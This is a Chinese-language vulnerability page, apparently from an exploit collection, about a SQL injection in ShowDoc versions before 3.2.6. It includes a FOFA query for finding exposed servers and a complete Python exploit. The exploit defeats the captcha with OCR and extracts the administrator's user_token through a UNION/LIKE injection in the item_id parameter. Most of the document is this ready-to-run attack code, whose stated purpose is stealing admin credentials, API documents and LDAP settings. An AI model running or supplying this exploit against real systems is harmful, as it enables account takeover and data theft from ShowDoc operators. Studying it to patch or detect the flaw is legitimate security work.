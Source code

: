## ShowDoc3.2.5存在SQL注入漏洞

ShowDoc 是基于thinkPHP开发的开源文档管理系统，支持使用 Markdown 语法书写API文档、数据字典、在线Excel文档等功能。
ShowDoc 3.2.6之前版本存在sql注入漏洞，在 Showdoc 的/server/index.php?s\=/api/item/pwd路径的item_id参数存在拼接执行逻辑，攻击者可利用 sql 注入爆破用户的 user_token，进而窃取管理员凭据，获取所有API文档、附件及LDAP等配置信息。

## fofa

```
app="ShowDoc"
```

## poc

```python
import argparse
import ddddocr
import requests
import onnxruntime
from urllib.parse import urljoin


onnxruntime.set_default_logger_severity(3)
table = '0123456789abcdef'
proxies = {'http': 'http://127.0.0.1:8085'}
ocr = ddddocr.DdddOcr()
ocr.set_ranges(table)


class RetryException(Exception):
    pass


def retry_when_failed(func):
    def retry_func(*args, **kwargs):
        while True:
            try:
                return func(*args, **kwargs)
            except RetryException:
                continue
            except Exception as e:
                raise e

    return retry_func


def generate_captcha(base: str):
    data = requests.get(f"{base}?s=/api/common/createCaptcha").json()
    captcha_id = data['data']['captcha_id']

    response = requests.get(f'{base}?s=/api/common/showCaptcha&captcha_id={captcha_id}')
    data = response.content
    result = ocr.classification(data)
    return captcha_id, result


@retry_when_failed
def exploit_one(base: str, current: str, ch: str) -> str:
    captcha_id, captcha_text = generate_captcha(base)
    data = requests.get(base, params={
        's': '/api/item/pwd',
        'page_id': '0',
        'password': '1',
        'captcha_id': captcha_id,
        'captcha': captcha_text,
        'item_id': f"aa') UNION SELECT 1,1,1,1,1,(SELECT 1 FROM user_token WHERE uid = 1 AND token LIKE '{current}{ch}%' LIMIT 1),1,1,1,1,1,1 FROM user_token; -- "
    }).json()

    if data['error_code'] == 0:
        return ch
    elif data['error_code'] == 10010:
        return ''
    elif data['error_code'] == 10206:
        raise RetryException()
    else:
        print(f'error: {data!r}')
        raise Exception('unknown exception')


def main():
    parser = argparse.ArgumentParser(description='Showdoc 3.2.5 SQL injection')
    parser.add_argument('-u', '--url', type=str, required=True)

    args = parser.parse_args()
    target = urljoin(args.url, '/server/index.php')
    res = ''
    for i in range(64):
        r = ''
        for ch in list(table):
            r = exploit_one(target, res, ch)
            if r:
                res += ch
                break

        print(f'Current result: {res}')
        if not r:
            break


if __name__ == '__main__':
    main()
```

![image-20240605084947972](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406050849021.png)